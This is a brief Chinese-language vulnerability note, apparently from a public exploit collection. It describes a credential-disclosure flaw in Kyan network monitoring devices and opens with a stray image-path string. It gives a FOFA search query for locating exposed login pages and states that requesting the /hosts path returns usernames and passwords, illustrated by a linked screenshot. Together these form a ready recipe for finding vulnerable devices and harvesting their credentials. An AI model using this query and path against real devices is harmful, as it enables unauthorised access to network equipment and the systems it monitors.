 # Kyan 网络监控设备 账号密码泄露漏洞

## FOFA

```
title="platform - Login"
```

## 漏洞POC

访问url，http://127.0.0.1/hosts ，显示用户名密码：

![2359469-20210418111405992-149165347.png](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205071033090.png)